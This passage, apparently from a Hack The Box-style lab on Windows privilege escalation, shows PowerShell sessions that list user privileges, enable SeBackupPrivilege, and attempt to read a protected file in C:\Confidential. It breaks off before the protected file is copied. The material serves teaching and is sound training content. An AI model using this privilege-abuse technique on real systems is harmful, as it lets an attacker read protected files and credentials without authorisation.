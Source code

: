 ```powershell-session
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

```powershell-session
PS C:\htb> Get-SeBackupPrivilege

SeBackupPrivilege is disabled
```

### Enable SeBackupPrivilege
```powershell-session
PS C:\htb> Set-SeBackupPrivilege
PS C:\htb> Get-SeBackupPrivilege

SeBackupPrivilege is enabled
```

```powershell-session
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

### Copying a Protected File
```powershell-session
PS C:\htb> dir C:\Confidential\

    Directory: C:\Confidential

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/6/2021   1:01 PM             88 2021 Contract.txt


PS C:\htb> cat 'C:\Confidential\2021 Contract.txt'

cat : Access to the path 'C:\Confidential\2021 Contract.txt' is denied.
At line:1 char:1
+ cat 'C:\Confidential\2021 Contract.txt'
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Confidential\2021 Contract.txt:String) [Get-Content], Unauthor
   izedAccessException
```